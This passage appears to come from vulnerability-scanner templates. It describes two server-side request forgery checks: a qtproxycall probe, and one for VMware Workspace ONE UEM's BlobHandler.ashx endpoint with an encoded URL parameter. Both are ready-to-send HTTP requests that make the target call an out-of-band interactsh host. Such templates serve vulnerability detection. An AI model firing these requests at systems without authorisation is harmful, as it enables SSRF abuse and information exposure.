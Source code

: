 ```
GET /?qtproxycall=http://{{interactsh-url}} HTTP/1.1
Host: {{Hostname}}
Origin: {{BaseURL}}

```

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

**Type - status**

- status
  1. 200

---

# VMWare Workspace ONE UEM - Server-Side Request Forgery

## Description

- VMware Workspace ONE UEM console 20.0.8 prior to 20.0.8.37, 20.11.0 prior to 20.11.0.40, 21.2.0 prior to 21.2.0.27, and 21.5.0 prior to 21.5.0.37 contain a server-side request forgery vulnerability. This issue may allow a malicious actor with network access to UEM to send their requests without authentication and to gain access to sensitive information.
- severity - high
- tags - cve,cve2021,vmware,workspace,ssrf

## Requests

- Method - GET

### URL

- {{BaseURL}}/Catalog/BlobHandler.ashx?Url=YQB3AGUAdgAyADoAawB2ADAAOgB4AGwAawBiAEoAbwB5AGMAVwB0AFEAMwB6ADMAbABLADoARQBKAGYAYgBHAE4ATgBDADUARQBBAG0AZQBZAE4AUwBiAFoAVgBZAHYAZwBEAHYAdQBKAFgATQArAFUATQBkAGcAZAByAGMAMgByAEUAQwByAGIAcgBmAFQAVgB3AD0A

### Matchers

**Type - word**

- words
  1. Interactsh Server

**Type - status**

- status
  1. 200

---
